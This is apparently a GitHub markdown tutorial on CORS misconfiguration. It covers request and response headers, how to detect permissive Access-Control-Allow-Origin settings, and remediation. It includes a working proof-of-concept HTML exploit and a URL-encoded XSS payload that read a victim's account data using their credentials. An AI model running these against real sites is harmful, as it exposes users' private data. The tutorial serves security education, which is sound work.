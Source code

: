 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.website.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.website.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.website.com 
```
#### The header is configured with `Access-Control-Allow-Origin: www.website.com` It means ***Only*** `www.website.com` domain can access the resources.

#### IF header is configured with a wildcard **(*)**. It means **Any domain** can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. CORS misconfiguration using wildcards such as (*)
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```
2. Origin with Other Domain.
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```
Web client sends a request to get a resource from a different domain, Consider the below Request


## POC - Exploite Code
1. cors.html is the exploit code to exploit misconfigured CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace **payload alert(document.domain)** 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  E.x: Access-Control-Allow-Origin: https://website.com

* Avoid whitelisting null `Access-Control-Allow-Origin: null`

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397
